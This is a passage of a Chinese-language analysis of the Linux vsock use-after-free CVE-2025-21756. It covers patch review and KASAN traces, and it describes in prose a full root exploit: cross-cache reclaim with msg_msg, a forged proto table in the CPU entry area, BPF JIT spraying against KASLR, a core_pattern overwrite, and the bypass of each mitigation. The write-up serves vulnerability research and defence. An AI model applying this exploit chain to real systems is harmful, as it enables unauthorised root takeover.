transport 重分配完成后，`vsock_connect()` 重新调用 `vsock_auto_bind()`。由于静态 `port` 计数器已经在 `P0+25`，首次探测即命中空闲端口，函数进入末尾的迁移操作。`__vsock_remove_bound()` 完成第二次 `sock_put()`，引用计数从 1 降到 0，对象被 slab 回收。紧随其后的 `__vsock_insert_bound()` 使用悬垂的 `vsk` 指针执行 `sock_hold()` 与 `list_add()`，构成 KASAN 报告中的 UAF。



阶段 04 结束后，受害者对象的引用仍由内核持有（`__vsock_insert_bound()` 已把它重新挂回 bound 表），但对象所在内存已经在 buddy allocator 上。此时从内核的视角看，bound 表中存在一个指向空闲页的节点；从 buddy allocator 的视角看，该页是一块可用的 order-3 空闲内存。这两个视角的错位构成了后续阶段可以利用的空间。

### 3-7. 阶段 5：跨缓存回收与伪造

阶段 05 的目标是用 `msg_msg` 对象重新占据被释放的 order-3 页。`msg_msg` 所使用的缓存（6.11 之前为 `kmalloc-cg-2k`，6.11 起为 `msg_msg-2k`）的 slab 页恰好也是 order-3，与 `AF_VSOCK` 的 slab 页大小相同。buddy allocator 会把刚归还的 order-3 页优先分配给新的 order-3 请求，因此极有可能把同一物理页交给 `msg_msg` 缓存。方案通过向 `MSG_QUEUE_NUM` 条队列逐一发送消息来触发大量分配，提高命中概率。

`struct vsock_sock` 的 `skc_prot` 字段位于偏移 0x28，方案需要在与受害者重叠的槽位上写入伪造的 `skc_prot` 指针。由于 `AF_VSOCK` 与 `msg_msg` 的对齐粒度不同，两个 slab 的槽位起始偏移差值始终是 `gcd(AF_VSOCK 步长, msg_msg 步长)` 的倍数。方案以 0x40 为步长在 `msg_msg` 载荷中写入伪造指针，保证无论实际相对偏移如何，总有一次写入落在目标偏移上。



payload_addr 是 worker 在阶段 00 通过 `sgdt` 读取并回传的 CPU entry area 地址。该地址指向 entry stack 的顶端，也就是 `pt_regs` 结构体的起始位置。阶段 06 中 worker 会把伪造的 proto 表写入这个位置，因此 `skc_prot` 指向该地址后，内核在解引用 `sk->sk_prot->close` 时会读到 entry stack 中的伪造值。

### 3-8. 阶段 6：CEA Worker 启动

阶段 06 让 worker 进入 #PF 刷新循环，把寄存器中的伪造 proto 表稳定地写入 CPU entry area。CPU entry area 中的 entry stack 是内核态与用户态切换时使用的栈；当内核态从用户态接管控制流时，寄存器会被保存在该栈的 `pt_regs` 结构体中。方案利用这一机制：worker 主动触发一次 #PF，内核在进入 SIGSEGV handler 之前会把寄存器写入 entry stack；handler 返回后内核重试 faulting 指令，再次触发 #PF，再次写入寄存器。如此循环往复，entry stack 中的 `pt_regs` 内容始终保持在用户态设置的寄存器值上。

伪造表的最前端 `p.proto.close` 与 `pt_regs.r15` 位置对应。worker 的 asm 代码在加载 payload 之后按 `r15, r14, r13, r12, rbp, rbx, r11, r10, ...` 的顺序 pop，最后一个 pop 是 `rdi`。由于 entry stack 的 `pt_regs` 顺序与 pop 顺序严格对应，无需任何手动偏移调整就能让 `p.proto.close` 落在 `pt_regs.r15` 上。



main 在发送 CMD_CEA_GO 之后迁移到 CPU 1，避免与 CPU 0 上的 worker 竞争。此时 CPU 0 完全由 worker 独占，#PF 循环可以持续运行，entry stack 中的伪造 proto 表也保持有效。

### 3-9. 阶段 7：触发载荷

阶段 07 通过 `close(victim_fd)` 使内核沿 `vsock_release()` → `sk->sk_prot->close(sk, 0)` 分发。由于阶段 05 已经把受害者的 `skc_prot` 覆盖为 CPU entry area 地址，这条分发路径会读取 entry stack 中的伪造 proto 表，把 `close` 字段解释为目标地址并跳转过去。



`close(victim_fd)` 是唯一触发 `skc_prot` 解引用的动作。在此之前的所有 syscall 都不会走到 `vsock_release()` 中的 `sk->sk_prot->close(sk, 0)` 这一行。选择 `close()` 而非其他触发方式的原因在于：close 路径的入口点恰好是 `vsock_release()` 的第一行，控制流到达 `sk->sk_prot->close` 的路径最短，受干扰因素最少。

watcher 与 main 并行运行，持续轮询 `/proc/sys/kernel/core_pattern`。JIT 载荷改写该文件后，watcher 在下一个轮询周期检测到变化，随即主动触发一次崩溃。内核在处理这次崩溃时会以 root 身份执行 core_pattern 指定的程序，从而进入利用后处理阶段。

### 3-10. 保护机制应对策略

本利用方案能够绕过 KASLR / SMEP / SMAP / KPTI 及大量内核内存保护机制。现代内核通常启用多种安全机制，这些机制分别从地址空间随机化、执行权限隔离、内存分配隔离、堆元数据保护、控制流完整性以及内核与用户态数据交换边界等维度，对潜在的内存异常操作进行防御。方案在设计之初便充分考量了这些保护机制的影响，并针对性地选择了相应的技术路径。

1. **KASLR**：随机化内核代码段、数据段和模块的加载基址。本方案不依赖内核虚拟地址的精确预测，而是通过批量喷射 JIT 映像覆盖模块区的随机偏移范围，使预测载荷地址始终落在某一映像内部。模块区的随机偏移范围有界，1024 页的喷射量即可覆盖。

2. **SMEP**：阻止内核态执行用户态虚拟地址中的代码。本方案不将用户态代码注入内核执行。控制流转移发生在内核态内部，`sk->sk_prot->close` 指向的是模块区中的 JIT 映像，其内容由内核编译生成，并非用户态代码。

3. **SMAP**：阻止内核态通过用户态虚拟地址访问用户数据。本方案不通过用户指针直接访问用户数据。伪造的 proto 表位于 CPU entry area，内核侧访问的是该区域的固定虚拟地址，而非用户态虚拟地址。

4. **KPTI**：分离内核页表与用户页表。本方案全程通过合法系统调用完成，不依赖用户态直接访问内核虚拟地址空间。

5. **CONFIG_MEMCG / CONFIG_MEMCG_KMEM**：为受控进程创建独立的缓存，与普通缓存隔离。该机制不影响 slab 层面的堆布局操作。本方案依赖的是 `AF_VSOCK` 与 `msg_msg` 两个缓存中对象的分配与释放顺序，与 cgroup 缓存隔离无关。

6. **CONFIG_SLAB_FREELIST_RANDOM**：随机化空闲链表中的对象顺序，增加同一 slab 内分配顺序的预测难度。本方案通过批量分配来回收目标槽位，并覆盖多个候选位置，因此不依赖对空闲链表顺序的精确预测。

7. **CONFIG_SLAB_FREELIST_HARDENED**：对空闲链表指针进行异或混淆，并检测双重释放。本方案中目标对象仅被释放一次，后续通过 `msg_msg` 喷射回收，不构成双重释放，因此检测不会触发。

8. **CONFIG_INIT_ON_ALLOC_DEFAULT_ON**：在分配 slab 对象时对内存进行清零。本方案中，`msg_msg` 载荷的内容由方案主动写入；目标 `vsock_sock` 本身通过零初始化分配，其 `skc_prot` 字段会在伪造阶段被覆盖，不依赖分配时的残留数据。

9. **CONFIG_HARDENED_USERCOPY**：在数据交换路径中增加边界检查。本方案不通过 `copy_to_user()` / `copy_from_user()` 访问越界数据，伪造的 proto 表位于内核页中，由内核直接访问。

10. **CONFIG_RANDOM_KMALLOC_CACHES**：该机制为通用的 `kmalloc-*` 缓存创建多个随机化的子缓存，并按调用点哈希把分配请求分散到不同子缓存，从而削弱对同一对象大小上分配顺序的预测能力。它主要作用于非 cgroup 的通用 kmalloc 缓存（`KMALLOC_NORMAL` 系列），不改变专用缓存（`kmem_cache_create` 创建的缓存）与 cgroup 缓存（`KMALLOC_CGROUP` 系列）的组织方式。

    本方案的堆布局完全建立在两个不受该机制影响的缓存之上：

    - `AF_VSOCK`：由 `kmem_cache_create` 显式创建的专用缓存，不参与通用 kmalloc 的随机化；
    - `msg_msg-2k`：6.11 起由 `kmem_buckets` API 创建的专用 bucket 缓存；6.11 之前使用 `kmalloc-cg-2k`，属于 `KMALLOC_CGROUP` 系列，同样不参与通用 kmalloc 的随机化。

    因此，无论该机制是否启用，两个缓存的 slab 页大小、对象布局以及 buddy allocator 上的页面归还与复用行为都保持不变。方案后续依赖的跨缓存页级回收、偏移步长命中与 JIT 载荷执行路径都不受其影响。

11. **CONFIG_SHUFFLE_PAGE_ALLOCATOR**：对 buddy allocator 的空闲链表进行随机化，增加物理页复用的不确定性。本方案通过 batch 喷射提高命中概率，不依赖单一物理页的精确预测。

整体而言，本方案通过 JIT 映像喷射覆盖模块 KASLR 范围、slab 页级别的跨缓存回收，以及内核态内部的 JIT 载荷执行，有效规避了上述保护机制。方案不依赖页表操作，也不依赖用户态直接访问内核虚拟地址空间，同时对堆元数据保护与随机化机制具有良好的鲁棒性。

### 3-11. 前提条件与局限性

**前提条件**

- 目标内核未应用上游修复补丁（`fcdd2242c023`）；
- 内核启用了 `CONFIG_VSOCKETS` 及 `CONFIG_VSOCKETS_LOOPBACK`；
- 目标环境允许以非特权用户身份创建 AF_VSOCK 套接字；
- JIT 编译器未禁用（`CONFIG_BPF_JIT` 开启）；
- CPU 支持 `sgdt` 指令（x86-64 架构默认支持）。

**局限性**

- **不适用已打补丁的内核**：修复补丁在 `vsock_remove_sock()` 中增加了 `SOCK_DEAD` 守卫，使得 transport 重分配路径不再触发 `vsock_remove_bound()`，整个链条无法启动。

- **依赖 CPU entry area 的固定映射与入口代码布局**：伪造的 proto 表需要写入 CPU entry area 中的 entry stack。该机制依赖两个前提：一是 entry stack 在运行时有一个可通过 `sgdt` 读取的固定基址；二是异常/中断入口路径会按 `pt_regs` 的固定布局把寄存器写入该栈。若内核入口代码在保存 `pt_regs` 之前引入额外的寄存器清零或重排，或切换到新的入口机制（如 FRED）后 entry stack 布局发生变化，则伪造表的写入路径失效。

- **依赖 `CONFIG_RANDOMIZE_MEMORY` 的随机化范围**：CPU entry area 位于 `FIXADDR_TOP` 之下，其基址受内存随机化影响。`sgdt` 读取的是运行时实际基址，因此方案本身对该随机化是鲁棒的；但如果目标内核引入了额外的映射隔离机制（例如将 entry stack 从用户页表中移除），则该路径失效。

### 3-12. 章节总结

本方案以第 2 章分析得到的 UAF 为起点，围绕"页级回收 + 对象替换 + 控制流接管"三个环节展开。整个方案在进程模型上分为 main / worker / watcher 三个角色，在时序上分为七个阶段，各阶段之间通过四条管道传递状态，通过 CPU 亲和划分竞争边界。main 与 worker 在阶段 00 至 05 期间共享 CPU 0 的 SLUB per-CPU freelist，使受害者释放的 slab 页可以被同一 CPU 上的 `msg_msg` 回收；阶段 06 之后 main 迁移到 CPU 1，把 CPU 0 完全让给 worker 的 #PF 循环。watcher 从启动起即绑定 CPU 1，避免与 worker 争抢 CPU 0。

方案的三个关键点：

1. **跨缓存页级回收**：`struct vsock_sock` 位于专用的 `AF_VSOCK` slab 缓存中，单个对象的释放不会归还 slab 页。方案通过释放受害者及其前后所有持有者，把整个 order-3 页归还给 buddy allocator，再用 `msg_msg` 对象重新占据同一物理页，从而把对象级 UAF 提升为页级 UAF，绕过缓存隔离。该策略对 6.11 之前使用 `kmalloc-cg-2k` 的内核同样适用，因为两者的 slab 页大小一致，都是 order-3。

2. **CPU entry area 伪造表**：伪造的 proto 表需要落在一个内核态可以访问、但内容由方案控制的区域。CPU entry area 中的 entry stack 恰好提供了这样的位置：它有一个可通过 `sgdt` 读取的固定基址，且异常入口路径会按 `pt_regs` 的固定布局把寄存器写入该栈。worker 利用 #PF 刷新机制持续把伪造表刷入 entry stack，使得伪造表在触发阶段保持有效。这条路径绕过 SMEP/SMAP 对用户态内存访问的限制，因为内核侧访问的是 entry stack 的固定虚拟地址，而非用户态虚拟地址。

3. **offset 步长命中**：`AF_VSOCK` 与 `msg_msg` 的对齐粒度不同，两个 slab 的槽位起始偏移差值始终是 `gcd(AF_VSOCK 步长, msg_msg 步长)` 的倍数。方案以 0x40 为步长在 `msg_msg` 载荷中写入伪造的 `skc_prot` 指针，保证无论实际相对偏移如何，总有一次写入恰好落在目标字段上。这一策略不依赖对 SLAB 空闲链表顺序的精确预测，对 `CONFIG_SLAB_FREELIST_RANDOM` 与 `CONFIG_SLAB_FREELIST_HARDENED` 都具有鲁棒性。

从触发链路上看，两次 connect 调用分别承担不同的作用：第一次 connect 让套接字绑定 loopback transport 并停留在 unbound 链表上，同时把静态端口计数器推进到预留区间之外；第二次 connect 触发 transport 重分配，先让引用计数从 2 降到 1，再在自动绑定成功后被降到 0，使对象被 slab 回收。紧接着的 `__vsock_insert_bound()` 使用悬垂指针执行 `sock_hold()` 与 `list_add()`，构成 KASAN 报告中的 UAF。整个链条上共发生两次错误的引用递减，均源于 `vsock_remove_sock()` 在 transport 重分配路径上无条件调用 `vsock_remove_bound()`，而守卫 `__vsock_in_bound_table()` 无法区分 bound 链表与 unbound 链表。

从保护机制的应对上看，方案不依赖页表操作，不依赖用户态直接访问内核虚拟地址空间，也不依赖对堆元数据或空闲链表顺序的精确预测。JIT 映像喷射覆盖了模块区的 KASLR 随机偏移范围；CPU entry area 的固定映射提供了稳定的伪造表位置；跨缓存页级回收利用了两个 order-3 缓存共享 buddy allocator 页面的事实。这些设计共同使方案能够在启用了 KASLR / SMEP / SMAP / KPTI 以及 `CONFIG_RANDOM_KMALLOC_CACHES`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_HARDENED_USERCOPY` 等机制的环境中工作。

### 3-13. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 4. 漏洞修复

### 4-1. 修复补丁概述

上游对 **CVE-2025-21756** 的修复由 Michal Luczaj 于 2025 年 1 月 28 日提交，补丁标题为 "vsock: Keep the binding until socket destruction"，commit为 `fcdd2242c023`，由 Jakub Kicinski 于次日合并入 net 树。补丁的 `Fixes` 标签指向 `c0cfa2d8a788`（"vsock: add multi-transports support"），说明该缺陷自 multi-transports 机制引入以来便已存在。补丁经 Stefano Garzarella 审阅。

补丁的定位可以概括为：在 socket 真正进入销毁流程之前，不允许 transport 重分配路径移除绑定。这一目标通过两处协同改动实现：一处在 `vsock_remove_sock()` 中增加 `SOCK_DEAD` 守卫，另一处在 `__vsock_release()` 中把 `sock_orphan(sk)` 提前到 transport release 之前。

### 4-2. 补丁的技术分析

补丁的完整内容如下：

```diff
diff --git a/net/vmw_vsock/af_vsock.c b/net/vmw_vsock/af_vsock.c
index fa9d1b49599bf..cfe18bc8fdbe7 100644
--- a/net/vmw_vsock/af_vsock.c
+++ b/net/vmw_vsock/af_vsock.c
@@ -337,7 +337,10 @@ EXPORT_SYMBOL_GPL(vsock_find_connected_socket);

 void vsock_remove_sock(struct vsock_sock *vsk)
 {
-	vsock_remove_bound(vsk);
+	/* Transport reassignment must not remove the binding. */
+	if (sock_flag(sk_vsock(vsk), SOCK_DEAD))
+		vsock_remove_bound(vsk);
+
 	vsock_remove_connected(vsk);
 }
 EXPORT_SYMBOL_GPL(vsock_remove_sock);
@@ -821,12 +824,13 @@ static void __vsock_release(struct sock *sk, int level)
 	 */
 	lock_sock_nested(sk, level);

+	sock_orphan(sk);
+
 	if (vsk->transport)
 		vsk->transport->release(vsk);
 	else if (sock_type_connectible(sk->sk_type))
 		vsock_remove_sock(vsk);

-	sock_orphan(sk);
 	sk->sk_shutdown = SHUTDOWN_MASK;

 	skb_queue_purge(&sk->sk_receive_queue);
```

第一处改动位于 `vsock_remove_sock()`。原实现无条件调用 `vsock_remove_bound(vsk)`，新实现在其前面插入 `SOCK_DEAD` 判断：只有当 `sk_vsock(vsk)` 上已设置 `SOCK_DEAD` 标志时才移除绑定，否则跳过。补丁中的内容 "Transport reassignment must not remove the binding." 直接点出了这一判断的目的——transport 重分配路径不是销毁路径，套接字此时仍然存活，不应丢弃绑定。

第二处改动位于 `__vsock_release()`。原实现把 `sock_orphan(sk)` 放在 transport release 之后，新实现把它提前到 release 之前。`sock_orphan()` 的作用是在套接字上设置 `SOCK_DEAD` 标志并清空反向关联，因此只有让它在 release 钩子运行之前执行，`vsock_remove_sock()` 中新增的守卫才能在合法销毁路径上通过。

两处改动必须成对应用。只应用第一处而不调整 `sock_orphan()` 的位置，正常关闭路径上的 `SOCK_DEAD` 尚未置位，`vsock_remove_sock()` 会跳过 `vsock_remove_bound()`，导致绑定引用泄漏。只调整 `sock_orphan()` 位置而不加守卫，transport 重分配路径仍然会无条件移除绑定，缺陷依旧存在。补丁通过这两处协同改动同时封闭了两个方向。

### 4-3. 漏洞利用链的切断

补丁的提交信息给出了修复前缺陷的完整链路：

```
1. vsock_create() (refcnt=1) calls vsock_insert_unbound() (refcnt=2)
2. transport->release() calls vsock_remove_bound() without checking if
   sk was bound and moved to bound list (refcnt=1)
3. vsock_bind() assumes sk is in unbound list and before
   __vsock_insert_bound(vsock_bound_sockets()) calls
   __vsock_remove_bound() which does:
       list_del_init(&vsk->bound_table); // nop
       sock_put(&vsk->sk);               // refcnt=0
```

第一条描述了套接字创建阶段的引用计数演化：`vsock_create()` 分配对象时 refcnt 为 1，随后 `vsock_insert_unbound()` 通过 `sock_hold()` 使其变为 2。第二条描述了 transport 重分配路径的缺陷：`transport->release()` 调用 `vsock_remove_bound()` 时没有判断 sk 是否真的处于已绑定状态，从而错误地把 refcnt 从 2 降到 1。第三条描述了后续 `vsock_bind()` 路径的连锁反应：`vsock_bind()` 假设 sk 仍在 unbound 链表上，在调用 `__vsock_insert_bound(vsock_bound_sockets())` 之前先调用 `__vsock_remove_bound()`，其中的 `sock_put()` 把 refcnt 从 1 降到 0，触发对象释放。紧随其后的 `list_del_init(&vsk->bound_table)` 对悬垂节点执行空操作，而插入动作则落在一块已被回收的内存上。

补丁的 `SOCK_DEAD` 守卫在这一链条上的作用点是第二条：只要 transport 重分配路径上的 `vsock_remove_sock()` 被守卫拦下，`vsock_remove_bound()` 不会被调用，refcnt 保持在 2。随后 `vsock_bind()` 路径上的 `__vsock_remove_bound()` 把 refcnt 从 2 降到 1，`__vsock_insert_bound()` 的 `sock_hold()` 再把它加回 2。整条链路上的引用计数始终为正，对象不会在中途被回收，UAF 因此无法形成。

KASAN 报告中的两类告警在补丁应用后不再出现：

```
BUG: KASAN: slab-use-after-free in __vsock_bind+0x62e/0x730
Read of size 4 at addr ffff88816b46a74c by task a.out/2057
...
refcount_t: addition on 0; use-after-free.
WARNING: CPU: 7 PID: 2057 at lib/refcount.c:25 refcount_warn_saturate+0xce/0x150
...
refcount_t: underflow; use-after-free.
WARNING: CPU: 7 PID: 2057 at lib/refcount.c:28 refcount_warn_saturate+0xee/0x150
```

第一类告警出现在 `__vsock_bind` 路径上，对应第三条链路中 `__vsock_insert_bound()` 对已释放对象的引用计数递增。第二类告警出现在 `vsock_remove_bound` 路径上，对应套接字最终关闭时对已归零引用计数的再次递减。两类告警分别从不同方向确认了同一次 UAF，正是补丁所要切断的目标。

### 4-4. 修复版本与回溯状态

补丁的合并时间与受影响版本范围如下：

| 分支     | 受影响版本 | 修复版本   |
| -------- | ---------- | ---------- |
| 5.4 LTS  | >= 5.5     | < 5.10.235 |
| 5.10 LTS | >= 5.5     | 5.10.235   |
| 5.15 LTS | >= 5.11    | 5.15.179   |
| 6.1 LTS  | >= 5.16    | 6.1.131    |
| 6.6 LTS  | >= 6.2     | 6.6.79     |
| 6.12     | >= 6.7     | 6.12.16    |
| 6.13     | >= 6.13    | 6.13.4     |

缺陷的引入 commit 为 `c0cfa2d8a788`（"vsock: add multi-transports support"），该 commit 引入了 transport 重分配机制。补丁的 `Fixes` 标签正是对该引入 commit 的指向。

### 4-5. 修复的技术要点

1. **`SOCK_DEAD` 的语义**：`SOCK_DEAD` 是套接字的一个标志位，表示套接字已经进入销毁流程。`sock_orphan()` 是设置该标志的统一入口。补丁依赖该标志作为"是否真的处于销毁流程"的判断依据，因此补丁的正确性建立在 `sock_orphan()` 在所有销毁路径上都被调用的前提之上。

2. **`sock_orphan()` 调用位置的调整**：`__vsock_release()` 是套接字释放的主要路径。补丁把 `sock_orphan(sk)` 从 transport release 之后移到之前，使 `SOCK_DEAD` 在 release 钩子运行前已置位。这一调整影响所有经过 `__vsock_release()` 的关闭路径。

3. **守卫与调用路径的对应关系**：`vsock_remove_sock()` 被两条路径调用。一条是 transport release 路径，另一条是套接字销毁路径（`__vsock_release()` 中 `vsk->transport` 为 NULL 时）。补丁的守卫只对前者产生实际影响，后者因为 `sock_orphan()` 已经提前执行，`SOCK_DEAD` 已置位，守卫照常通过。

## 5. 免责声明

本文档旨在提供 **CVE-2025-21756** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 6.12.15）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4cve/tree/master/src/CVE-2025-21756
- https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2025-21756_cos
- https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2025-21756_lts_cos
- https://henrymartin262.github.io/2025/06/13/CVE-2025-21756/
- https://www.cve.org/CVERecord?id=CVE-2025-21756
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=734bbc1c97ea7e46e0e53b087de16c87c03bd65f
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fcdd2242c0231032fc84e1404315c245ae56322a
- https://nvd.nist.gov/vuln/detail/CVE-2025-21756
- https://ubuntu.com/security/CVE-2025-21756
